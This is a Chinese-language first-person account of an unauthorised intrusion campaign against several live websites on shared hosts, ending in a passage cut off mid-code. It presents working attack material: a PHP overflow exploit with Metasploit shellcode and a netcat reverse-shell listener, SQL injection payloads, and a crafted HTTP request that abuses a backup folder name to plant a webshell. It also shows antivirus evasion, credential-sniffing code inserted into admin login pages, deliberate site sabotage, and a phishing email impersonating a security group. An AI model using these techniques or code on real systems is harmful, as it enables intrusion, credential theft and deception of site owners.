

图8

由图8可以看出，发生问题的模块是 php5ts.dll，发生问题的函数是 php_hash_register，在这个函数偏移 0x2bf 处发生了异常。

显然 php5ts.dll 是 PHP 的核心解析器，PHP 所有的功能都包含在它那里，不论什么操作系统，运行 PHP 都少不了要加载它。从这里可以看出这个漏洞危害的范围很广，是跨平台的。至于漏洞发生的原因，就不在这里叙述了。

现在看发生异常的位置是：

```
00a74fef ff5204 call dword ptr [edx+4]
ds:0023:55555559=????????
```

EIP 为 0x00a74fef 的地方，而 POC 第一行代码就是 `define("OFFSET", pack("L",0x55555555));`，把这个地址装入一个二进制串中。再看异常发生时的寄存器环境（如图8中的 edx=0x55555555），后来再通过调试确定开始的第一句代码的地址就是控制 edx 的寄存器。那么只要能在 edx+4 指向的地址装入精心构造的 shellcode，就可以顺利溢出了。

后来，朋友发现了一种把另一个 PHP 漏洞（PHP addcslashes() Interruption Information Leak Vulnerability）和这个漏洞结合起来利用的方法，后来我也证实了这个结果。以下是朋友的调试结果，在这里和大家分享。

“PHP addcslashes() 信息泄露漏洞，它可以读出内存空间中的信息，在读出的信息中，从偏移 0x10 开始，保存了一个指针，而在该指针偏移 0x20 开始保存我们控制的变量的值。”

这样我们就可以用 PHP addcslashes() 漏洞找到放置 shellcode 的地址，再找到某个变量 A 的地址，在变量 A 的地方存放 shellcode 的地址，那么 `call [edx+4]` 就可以执行 shellcode 了。把那两个 POC 结合起来，最后那个 hexdump() 函数改成我们找到偏移 0x10 指向的 0x20 地址的函数。

其实是很简单的一个功能，直接附上朋友写的这个函数，如下所示。

```php
function hexdump($x)
{
    $ret_long = ord($x[0x13]) * 0x1000000 + ord($x[0x12]) *
                0x10000 + ord($x[0x11]) * 0x100 + ord($x[0x10]);
    $ret_long = $ret_long + 0x20;
    return $ret_long;
}
```

只是里面的细节还需要调一调，如要生成纯字母、数字的 shellcode，edx+4 那个地方需调一下等，然后就可以用 metasploit 生成我们想要的纯字母数字的 shellcode 了。

我在本机测试成功，如图9所示。



图9

在漏洞调试成功后的第 2 天，当我准备用这个 exp 提权时，用菜刀连上我的 webshell，谁知道却返回 404。

我把 www.aaa.com 输入浏览器后，返回信息如图10所示。



图10

从图10可以看出，昨天那个刚拿下的网站，今天域名就过期了，我还能说什么呢？

## 杀个回马枪

我只能老老实实再杀回来仔细分析虚拟主机上剩下的那几个网站了。那个悲催的网站被关闭了之后，剩下的不是 Discuz! X2 就是静态 HTML 网站，再有就是很知名的较新版的无已知漏洞的 CMS 了。它就只有一个 ASP 的网站，地址为 http://www.bbb.com。也许这个网站是唯一的突破口了，用后台扫描器很容易扫到后台是 http://www.bbb.com/manage/，如图11所示。


图11

从图11可以很清晰地得到这个网站程序是 3hooCMS V3 SP2，我搜了一下，没有找到这个版本的漏洞，较低的版本倒是有一个 XSS 漏洞，并且也没有这个版本 CMS 的下载地址，我怀疑目标主机安装的是商业版。我只找到了 3hooCMS_V2_SP2 的下载。

下载完后，我在 vmware_win2003 下搭了环境，开始分析其源代码。经过一段时间的分析，我发现 Search.asp 这个文件存在 SQL 注入漏洞。代码第 9 行到 11 行如下。

```asp
Dim TplFileUrl,TplStr,Sql,Rs,rCid,Cid
SoKey=trim(request("sokey"))
page=request.QueryString("page")
```

第 10 行 SoKey 变量没有经过任何过滤便传了进来。第 41 到 47 行如下。

```asp
if SoKey="" then
  csql=""
  filename="Search.Asp"
else
  filename="Search.Asp?sokey="&SoKey
end if
sql="select * from [info] where "&languageset&"Name like '%"&SoKey&"%' order by id desc;"
```

SoKey 被当作搜索型变量传入 SQL 语句中。因此这里存在着一个搜索型的注入漏洞。由于是已知的 CMS，其表名和字段名都不用猜了。管理员表名：ScmsAdmin；用户名字段：username；密码字段：password。

选择好关键字直接在 NBSI 工具里跑吧。遗憾的是没有跑出任何结果，于是我在目标网站中手工搜索输入框里测试。当输入 `33%' and 1=1 and '%'='` 时查询出了一些结果，而输入 `33%' and 1=2 and '%'='` 时又没有任何结果。完全没有问题啊，SQL 语句肯定执行了，注入百分之百存在，但为什么就是跑不出来呢？我突然想到，也许新版本第 10 行代码应该是这么写的：

```asp
SoKey=trim(request.form("sokey"))
```

这是 POST 提交方式，我马上变换成了 POST 的扫描方式，终于得出了结果，如图12所示。



图12

得到加密的密码（fead0df1fe60103eaba454dd0a7e0842）后拿到 Cmd5 解密，但仍无法解密。看来这年头不设置 10 位以上字母+数字+特殊字符的密码都不好意思和别人打招呼。

## 不成功的社工

MD5 密码破不出来其实是常有的事，不过也说明国内上网用户的安全意识也在一步步地提高。我考虑到既然他的网站有这个注入漏洞，那么管理员即便改了密码，我们仍然能通过 SQL 注入漏洞得到 hash。如果他能改一个 Cmd5 能破解出来的简单密码不就有希望了吗？于是我借 2011 年年底的网络安全密码泄露门事件，给管理员发了一封 E-mail，如图13所示。



很不好意思，这里我借用了 90sec.org 的名义，因为我觉得 90sec 中有很多人的技术水平还是蛮高的，并且喜欢免费给某些网站提交漏洞。

E-mail 发出去 2 天后，再次注入得出密码的 hash，发现他没有修改。我也感觉此路不通，即便他修改了，很有可能密码还是很复杂而破不出来。

后来又想到去社工主网站 www.111.com，询问他们的管理员为什么主网站不能注册普通用户，也不能登录，是不是网站程序坏掉了。想借他们修复普通用户注册功能后，上传一个含有 PHP 木马的图片，再利用 IIS7.5 的解析漏洞得到 shell。但得到的答复是：他们就是专门禁止普通用户注册和登录的。

罢了，我社工真的不擅长，不太会与人交互，还是靠自己吧。

## V5 侧迂回战术

考虑到好不容易拿到 http://www.bbb.com 的 hash，不能这么轻易放过这个网站啊。于是想看看这个管理员有没有其他的站，通过拿下他自己的另外的网站，然后再得到其密码也是一个不错的选择。这就是所谓的迂回战术吧，我不从正面进攻了，我从你有弱点的地方进攻还不行吗？

于是我根据他网站提供的信息，再加上 whois 查询、域名查询、谷歌、百度，终于发现这个管理员在其他虚拟机还存在 3 个类似的网站，分别是：

- http://www.bbb1.com
- http://www.bbb2.com
- http://www.bbb3.com

虚拟主机操作系统同样是 Windows 2003，令人兴奋的是这 3 个网站与 www.bbb.com 使用的是同一套 CMS，都是 3hooCMS V3 SP2。

利用前面发现的 SQL 注入漏洞，很容易得到 bbb1、bbb2 两个网站的后台管理员的密码 hash 都为 fead0df1fe60103eaba454dd0a7e0842，和 bbb.com 一样是无法破解的。

又过了一天，我怀着百分之一的希望把 www.bbb3.com 也扫了一遍，但惊奇的是密码 hash 和其他 3 次都不一样，立刻拿到 Cmd5 去破解，但需付费。结果如图14所示。



就这样我拿到了 www.bbb3.com 管理员的密码。这下我感到形势一片大好，思路如下。

- 1. 通过进入 bbb3.com 的后台，得到一个 webshell。
- 2. 再从 webshell 里通过提权跨目录到 bbb2.com。
- 3. 改写 bbb2.com 的后台登录代码，嗅探其明文密码。
- 4. 同步进行 FTP 密码的破解，顺便尝试 bbb.com 的 FTP。

至此我感觉这个迂回的战术还算威武。

## 从得到该 CMS 源代码到后台 getshell

进入 www.bbb3.com 后台后，尝试了上传的地方，又看了源代码，发现没什么漏洞。该网站严格检测了扩展名并以时间格式强制更改了上传后的文件名，应该是较成熟的上传代码。而网站设置那块是写入数据库的。唯一可能出问题的地方只能是数据库备份了，如图15所示。



从图15得知数据库的路径和扩展名，不过看着诱人的 asa 扩展名却做好了防下载处理。我利用 ASP 小马代码入库的方式来测试，发现 #Data23%base#.asa 是无法执行 ASP 的。

大家肯定会说，上传一个带一句话 ASP 木马的图片，然后备份这个图片为 ASP 不就完事了吗？

但是有以下几个问题需要解决：

- 当前数据库路径输入框和备份数据库名称输入框都是只读的，无法更改。
- 即便备份为 a.asp;a.jpg 也不可执行（后来才知道，可能是防火墙拦截的原因）。

第一个问题好处理，客户端的一切防御手段都是浮云。一个 readonly 能阻挡我这个久经沙场的老将吗？不论是把其 HTM 保存下来，把 action 完整路径附上提交，还是用 Firefox 的插件，再或者是用国外的神器 Burp Suite，都能轻松绕过。

至于第二个问题，我发现肯定备份出了 a.asp;a.jpg 类型的文件，可是用浏览器访问却总是出现 404 错误。

我只能再看其 CMS 源代码，看它备份此处到底是如何处理的。

看了一会儿后，如愿以偿地发现了问题，漏洞文件为 Admin_DataBackup.asp。

第 65~83 行的代码如下。

```asp
sub backupdata()
  Dbpath=request.form("Dbpath")
  Dbpath=server.mappath(Dbpath)
  bkfolder=request.form("bkfolder")
  bkdbname=request.form("bkdbname")
  Set fso=server.createobject("scripting.filesystemobject")
  if fso.fileexists(dbpath) then
    72. If CheckDir(bkfolder) = True Then
    73. fso.copyfile dbpath,bkfolder&"\\"&bkdbname&".mdb"
    74. else
    75. MakeNewsDir bkfolder
    76. fso.copyfile dbpath,bkfolder&"\\"&bkdbname&".mdb"
  end if
  response.write "<center>备份数据库成功，备份的数据库路径为" & bkfolder & "\\" & bkdbname & ".mdb</center>"
  response.write "<center><a href='Databackup\\" & bkdbname & ".mdb'>下载本次备份数据库到本地</a></center>"
Else
  response.write "找不到您所需要备份的文件。"
End if
end sub
```

第 68 行 `bkfolder=request.form("bkfolder")` 没有对目录名做过滤。

而 `request.form("bkfolder")` 是从第 37 行这句代码传过来的。

```html
<td height="22"><input type="hidden" size=50 name=bkfolder value=Databackup ></td>
```

说明默认情况下 `bkfolder=Databackup` 这个目录。

第 72~76 行是检测 `bkfolder` 这个目录是否存在，如果不存在就调用 `MakeNewsDir bkfolder` 这个函数。

第 98~103 行代码如下。

```asp
Function MakeNewsDir(foldername)
  Set fso1 = CreateObject("Scripting.FileSystemObject")
  Set f = fso1.CreateFolder(foldername)
  MakeNewsDir = True
  Set fso1 = nothing
End Function
```

直接调用 fso 创建一个没有过滤参数的文件夹。

这时大家可能都想到了：如果我们上传的时候抓包，把默认的文件夹 Databackup 改为 kyo.asp，那不就创建了一个 kyo.asp 的文件夹吗？这样配合 IIS6.0 的漏洞将可以成功执行我的美女图片 ASP 木马。

实战当中也是这样的，把抓的包改为这样的形式，再用 nc 提交就 OK 了。

```http
POST /manage/Admin_DataBackup.asp?action=Backup HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,application/msword,application/vnd.ms-excel,application/vnd.ms-powerpoint,*/*
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: www.bbb3.com
Content-Length: 77
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDSATTCRQC=...

Dbpath=%2FUpLoadFile%2F20120112012046769.jpg&bkfolder=kyo.asp&bkDBname=data
```

备份成功后，用菜刀提交 URL 路径类似如下。

http://www.bbb3.com/manage/kyo.asp/data.mdb

至此也算拿下了一个 webshell，万里长征又进了一步。

## ASP 嗅探隐藏变态的密码

幸运的是 `www.bbb3.com` 所在的虚拟主机没有做什么安全措施，传上去一个 aspx 的木马就可以跨到 `www.bbb1.com` 和 `www.bbb2.com` 的目录里去了，毕竟 aspx 默认是权限稍大的 user 权限。在尝试 ftp 密码无果后，下一步就是在 bbb1 和 bbb2 的后台登录页面写嗅探代码了。我在 `Admin_Send.asp` 页面第 8 行开始添加以下代码。

```asp
thename=replace(trim(request.form("username")),"''","")
thepass=replace(trim(Request.form("password")),"''","")
SaveFile="page.gif"
GetPostStr=thename&"|"&thepass
set F=server.CreateObject("scripting.filesystemobject")
set I=F.OpenTextFile(server.mappath(SaveFile),8,True,0)
I.WriteLine(GetPostStr)
I.close
Set F=nothing
```

只要管理员登录后台，密码就会被记录在 `page.gif` 中，剩下的就只有等了。但我不是一个忍者，等了一天无果后，我就在他数据库网站配置字段做了点手脚，致使访问他网站首页是空白，但是后台还是可以正常登录的。果然这家伙不到半天就急了，当天晚上我就顺利地嗅探到了他的变态密码，如图 16 所示。



从图 16 可以看到，密码果然很强悍，10 位以上，字母数字再加上符号，让 `www.cmd5.com` 再添 50 公斤的硬盘也破不了啊。

拿到这个关键的密码，再用前面研究出的 3hoocms 后台 getshell 漏洞，轻车熟路地拿下 `www.bbb.com` 的 webshell，也就是 `a.111.com` 所在的虚拟主机。接下来的任务就是提权跨目录到 `a.111.com` 了。

## 突破星外 + 护卫神

进行到这里，在“星外虚拟主机 + 护卫神”入侵防护专家的防御之下，确实让人望而却步。好在 PHP 版本比较低，我终于用上了那个调试好的 PHP 溢出漏洞。在 metasploit 生成一个反弹端口的 shellcode，添加到那个 `exp.php` 代码中。我在本机执行 `nc -vvlp 8181`，然后把 `exp.php` 传到 `www.bbb.com` 根目录。当我在浏览器中打开 `http://www.bbb.com/exp.php` 时，立刻出现了如图 17 所示的错误。



从图 17 返回的内容来看，应该是没有成功。后来我在 `vmware_win2003` 设置了和目标操作系统 + PHP 版本 + PHP 执行方式（ISAPI）一模一样的环境，顺利反弹回来一个 nt network 权限的 shell。这里我考虑应该是 `w3wp.exe` 执行的 shellcode，所以继承了 w3wp 的 nt network 权限。但不论怎样也是个交互式可执行命令的 shell 啊。这次终于找到了答案，原来目标 windows 2003 打开了 dep（堆栈数据执行保护）。

我仍然没有气馁，虽然上次域名过期那个网站的目录没有执行 aspx 的权限，但这个 `www.bbb.com` 的目录我还没试呢。万一支持 aspx 不就又多一种执行命令的方法吗？这个方法如下。

```csharp
System.Diagnostics.Process.Start("calc.exe");
```

这次果然没错，`bbb.com` 是支持 aspx 的，只是有两个问题需要解决。

- 1. 护卫神几乎杀光了所有的 aspx 木马，需要突破。
- 2. 星外虚拟主机的可写可执行目录的寻找是个大麻烦，需要寻找一个上传给 `cmd.exe` 来支持 aspx 执行命令，因为大家都知道 windows 2003 的 `c:\windows\system32\cmd.exe` 默认只对 administrator 有权限读/写。

第一个问题比较好解决，记得我写过一篇在黑客手册发表的《浅谈在 webshell 下执行命令》文章，里面有我提供的 3 种 aspx 执行命令的小马。使用任何一个，改变一下字段名，除去敏感字符串，再把函数位置调换一下，也就能过了，最多再加密一下而已。这个难不倒我，毕竟混在看雪论坛研究加密解密算法也有几年光景了。

至于第二个问题，我倒没有什么好方法，只能写个遍历脚本，测试可读的每一个目录是否有漏洞的可写目录存在。这个网上有很多人已经写过这样的方法了，用拿来主义改一改即可。

最终被我找到了星外的一个可写目录：

`C:\Documents and Settings\All Users\Application Data\Microsoft\Media Index`

剩下的事情就简单了，我也懒得用 pr 大杀器，也用不着最新 Windows 全版本的 0Day 提权 exp 这个牛刀了。直接传一个 `cscript.exe+iisgetpass.vbs`，读出所有网站用户的配置信息和密码即可。`iisgetpass.vbs` 代码大家都有，我就不在这里介绍了。

最终结果如图 18 所示。



图 18

一般这类结构的网站，IIS 账户的密码就是 ftp 的密码。就这样我得到了 `a.111.com` 的 ftp 账户和密码，并成功把其拿下。

由于主目标 `www.aaa.com` 只开 80 口，也无法用这个 ftp 密码去尝试它了，并且再用这个密码尝试破解其论坛管理员的密码又无结果，只能继续嗅探了。

## PHP 嗅探目标管理员密码

拿下 `a.111.com` 后，还是有一些惊喜的。我看到了 `www.111.com` 的早期论坛数据库存在于 `a.111.com` 的库中，并且经过转换发现，其管理员的 discuz! Hash 密码与 `a.111.com` 的 md5 hash 密码是一样的。

其实这个对比很简单。假设 `a.111.com` 中管理员的密码 hash 为：`228ab4dd53787ce32a88ade0eeea8a51`，早期 `www.111.com` 的 discuz 管理员密码 hash 为：`8946fa73f2b44b64da2ebab1aaa57ec6:42ee90`。那么测试 `md5(228ab4dd53787ce32a88ade0eeea8a5142ee90)`，如果等于 `8946fa73f2b44b64da2ebab1aaa57ec6`，则说明两个密码的明文是一样的。

因为 discuz 加密的方式是：`md5(md5($pass).$salt)`，我恰恰证实了这一点。由于密码的复杂度不是我们所能暴力破解的，我于是又一次选择了 PHP 登录口密码嗅探。

与此同时还在继续着另一个工作，就是查找那个帖子所在板块的版主用户名，拿到这些任何一个版主的密码不也一样能删帖子达到目的吗？但这次的经历告诉我：你省省吧，人家那个板块的版主就是管理员一个人。我再次无语，还是老老实实地写代码嗅探吧。

我找到 `a.111.com` 的前台和后台登录口，添加了下面的代码。

```php
$username1 = $this->Username;
$password1 = $this->Password;
$file = "/images/bg1.gif";
$handle = @fopen("/images/th_bg1.gif", "a");
$recontent = fread($handle, filesize($file));
$content = $username1."----".$password1."----date is:".date("Y-m-d H:i:s")."\n";
